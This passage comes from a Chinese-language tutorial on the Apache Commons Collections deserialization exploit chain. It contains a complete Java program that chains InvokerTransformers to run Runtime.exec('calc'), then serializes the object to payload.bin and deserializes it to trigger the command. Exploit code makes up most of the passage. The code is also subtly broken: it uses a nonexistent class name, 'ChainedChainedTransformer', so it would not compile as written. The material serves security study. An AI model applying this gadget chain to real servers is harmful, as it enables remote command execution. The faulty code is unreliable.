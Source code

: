 ```java

    }
}
```

反序列化触发点
=======

到目前为止我们已经构造好了反射利用链，现在来看一下如何触发，触发需要两个条件

1. 服务器调用readObject反序列化构造好的ChainedChainedTransformer
2. 调用反序列化后的ChainedTransformer类中的transform方法执行命令

代码如下，实际环境中基本不可能满足这两个条件，因此我们需要寻找其他触发方式

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                //根据transform的执行规则，InvokeTransformer类构造函数的第一个参数为要执行的，第二个参数为一个Class[]，包含了要获取方法的参数类型。第三个参数为invoke的第二个参数
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        //把构造好的数组封装成ChainedTransformer
        ChainedChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        //序列化数据
        FileOutputStream fileOutputStream=new FileOutputStream("payload.bin");
        ObjectOutputStream objectOutputStream=new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(chainedTransformer);

        //反序列化数据
        FileInputStream fileInputStream=new FileInputStream("payload.bin");
        ObjectInputStream objectInputStream=new ObjectInputStream(fileInputStream);

        //调用反序列化后的ChainedTransformer类中的transform方法触发
        ChainedTransformer SerialChainTransformer=(ChainedTransformer)objectInputStream.readObject();
        SerialChainTransformer.transform(null);

    }
}
```
